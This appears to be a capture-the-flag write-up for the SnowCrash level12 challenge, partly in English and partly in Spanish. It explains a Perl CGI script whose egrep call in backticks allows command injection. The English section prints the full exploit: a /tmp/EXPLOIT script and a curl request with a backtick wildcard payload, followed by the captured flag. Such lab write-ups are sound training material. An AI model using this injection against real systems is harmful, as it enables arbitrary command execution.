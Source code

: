 1. **File Search**

    We found a `level12.pl` file that shows Perl code that does the following:
    - Receives two web parameters: `x` and `y`.
    - Searches in `/xd` for lines that start with the value of `x` (uppercase and without spaces).
    - If the second part of the line matches `y` (as a regex), it prints `..`, otherwise it prints `.`
    1. The script uses the following line to search in the `/xd` file:
        ```bash
        @output = `egrep "^$xx" /tmp/xd 2>&1`;
        ```
        The value of `$xx` comes directly from the `x` parameter received by the user, after converting it to uppercase and removing what follows a space.

2. **Vulnerability and Exploitation**

    The `level12.pl` script is vulnerable to command injection because it inserts the value of the `x` parameter directly into a shell command using backticks, after converting it to uppercase and removing what follows a space. This allows arbitrary commands to be executed if the executable file name is in uppercase and contains no spaces.
    1. We create an executable script /tmp/EXPLOIT that executes getflag and redirects the output to a file (/tmp/flag12).
    2. We use an HTTP request with curl so that the CGI executes our script using a wildcard and backticks in the x parameter:
    ```bash
    level12@SnowCrash:~$ cd /tmp
    level12@SnowCrash:/tmp$ echo -e \'#!/bin/bash\\ngetflag > /tmp/flag12\' > EXPLOIT
    level12@SnowCrash:/tmp$ chmod +x EXPLOIT
    level12@SnowCrash:/tmp$ curl "http://localhost:4646/?x=\`/*/EXPLOIT\`&y=.*"
    ..level12@SnowCrash:/tmp$ cat flag12
    Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
    ```





## Lo que hace el script:

### 1. **Recibe dos parámetros de la web:**
- `x` = un texto (por ejemplo: "admin")
- `y` = otro texto (por ejemplo: "password")

### 2. **Procesa el parámetro `x`:**
```perl
$xx =~ tr/a-z/A-Z/;    # Convierte "admin" → "ADMIN"
$xx =~ s/\s.*//;       # Si hubiera espacios, los quita
```

### 3. **Busca en el archivo `/tmp/xd`:**
```perl
@output = `egrep "^$xx" /tmp/xd 2>&1`;
```
**Busca líneas que EMPIECEN con "ADMIN"**

### 4. **Ejemplo del archivo `/tmp/xd`:**
```
ADMIN:secretpassword
USER:mypass123
ADMIN:password456
GUEST:welcome
ROOT:topsecret
```

### 5. **El egrep encuentra:**
```
ADMIN:secretpassword
ADMIN:password456
```

### 6. **Ahora verifica el parámetro `y`:**
```perl
foreach $line (@output) {
    ($f, $s) = split(/:/, $line);  # Divide por ":"
    if($s =~ $nn) {                # ¿La parte después de ":" contiene "y"?
        return 1;
    }
}
```

## Ejemplo completo:

**Si el usuario pone:**
- `x = "admin"`
- `y = "password"`

**El script hace:**
1. Convierte "admin" → "ADMIN"
2. Busca líneas que empiecen con "ADMIN" en el archivo /tmp/xd
3. Encuentra: `ADMIN:secretpassword` y `ADMIN:password456`
4. Verifica si "password" está en "secretpassword" → ✅ SÍ
5. Devuelve 1 → Imprime ".."

## Resumen correcto:
**El script busca líneas que empiecen con `x`, y luego verifica si alguna de esas líneas contiene `y` en la parte después de los dos puntos (:)**


